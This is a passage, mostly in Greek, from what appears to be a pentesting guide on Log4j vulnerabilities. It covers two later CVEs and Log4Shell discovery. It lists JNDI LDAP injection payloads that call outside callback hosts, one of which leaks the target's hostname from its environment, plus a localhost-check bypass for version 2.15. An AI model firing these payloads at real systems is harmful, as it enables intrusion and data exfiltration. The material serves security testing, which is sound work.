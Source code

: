 ### **CVE-2021-45105** **\[High]**

Το Log4j 2.16.0 περιέχει μια ευπάθεια DoS, οδηγώντας στην κυκλοφορία του `log4j 2.17.0` για να διορθώσει την CVE. Περισσότερες λεπτομέρειες είναι διαθέσιμες στην [αναφορά του BleepingComputer](https://www.bleepingcomputer.com/news/security/upgraded-to-log4j-216-surprise-theres-a-217-fixing-dos/).

### [CVE-2021-44832](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/)

Επηρεάζει την έκδοση log4j 2.17, αυτή η CVE απαιτεί από τον επιτιθέμενο να ελέγχει το αρχείο ρύθμισης του log4j. Περιλαμβάνει πιθανή αυθαίρετη εκτέλεση κώδικα μέσω ενός ρυθμισμένου JDBCAppender. Περισσότερες λεπτομέρειες είναι διαθέσιμες στην [ανάρτηση του Checkmarx blog](https://checkmarx.com/blog/cve-2021-44832-apache-log4j-2-17-0-arbitrary-code-execution-via-jdbcappender-datasource-element/).

## Log4Shell Exploitation

### Discovery

Αυτή η ευπάθεια είναι πολύ εύκολη να ανακαλυφθεί αν δεν προστατεύεται, καθώς θα στείλει τουλάχιστον ένα **DNS request** στη διεύθυνση που υποδεικνύετε στο payload σας. Επομένως, payloads όπως:

* `${jndi:ldap://x${hostName}.L4J.lt4aev8pktxcq2qlpdr5qu5ya.canarytokens.com/a}` (χρησιμοποιώντας [canarytokens.com](https://canarytokens.org/generate))
* `${jndi:ldap://c72gqsaum5n94mgp67m0c8no4hoyyyyyn.interact.sh}` (χρησιμοποιώντας [interactsh](https://github.com/projectdiscovery/interactsh))
* `${jndi:ldap://abpb84w6lqp66p0ylo715m5osfy5mu.burpcollaborator.net}` (χρησιμοποιώντας Burp Suite)
* `${jndi:ldap://2j4ayo.dnslog.cn}` (χρησιμοποιώντας [dnslog](http://dnslog.cn))
* `${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/fe47f5ee-efd7-42ee-9897-22d18976c520}` χρησιμοποιώντας (χρησιμοποιώντας [huntress](https://log4shell.huntress.com))

Σημειώστε ότι **ακόμα και αν ληφθεί ένα DNS request αυτό δεν σημαίνει ότι η εφαρμογή είναι εκμεταλλεύσιμη** (ή ακόμα και ευάλωτη), θα χρειαστεί να προσπαθήσετε να την εκμεταλλευτείτε.

{% hint style="info" %}
Remember that to **exploit version 2.15** you need to add the **localhost check bypass**: ${jndi:ldap://**127.0.0.1#**...}
{% endhint %}

#### **Local Discovery**

Search for **local vulnerable versions** of the library with:
```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```
### **Επαλήθευση**

Ορισμένες από τις πλατφόρμες που αναφέρθηκαν προηγουμένως θα σας επιτρέψουν να εισάγετε ορισμένα μεταβλητά δεδομένα που θα καταγραφούν όταν ζητηθούν.\
Αυτό μπορεί να είναι πολύ χρήσιμο για 2 πράγματα:

* Για να **επαληθεύσετε** την ευπάθεια
* Για να **εξάγετε πληροφορίες** εκμεταλλευόμενοι την ευπάθεια
